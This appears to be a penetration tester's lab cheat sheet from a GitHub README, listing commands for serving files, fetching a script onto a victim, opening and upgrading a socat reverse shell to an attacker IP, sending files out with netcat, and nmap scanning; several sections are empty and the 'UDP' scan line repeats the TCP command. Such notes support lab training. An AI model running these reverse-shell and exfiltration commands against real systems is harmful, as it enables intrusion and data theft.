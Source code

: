 # Useful Commands

> This section will include commands / code I used in the lab environment that I found useful

## Web server

### With Python

Kali: ```python3 -m http.server 8888``` or ```python -m SimpleHTTPServer 80```

Victim: ```wget http://10.10.10.10:8888/something.sh -O something.sh```

## Upgrade reverse shell

### With Socat

Victim: ```wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat```

        ```chmod +x socat```
        
        ```socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444```
        
Kali:   ```socat file:`tty`,raw,echo=0 tcp-listen:4444```

### With Python

Victim: ```python3 -c 'import pty; pty.spawn("/bin/sh")'```

## Send files

### With netcat

Kali:   ```nc -lvp 4444 > file.txt```

Victim: ```cat file.txt | nc -q 0 10.10.10.10 4444```

## Reverse shells 


# Enumeration

> Enumeration is the most important thing you can do, at that inevitable stage where you find yourself hitting a wall, 90% of the time it will be because you haven’t done enough enumeration

### Nmap

TCP Scan:

```nmap -sV -sC -p- 10.10.10.216```

UDP Scan:

```nmap -sV -sC -p- 10.10.10.216```

# Privilege Escalation

# Some Scripts

# References

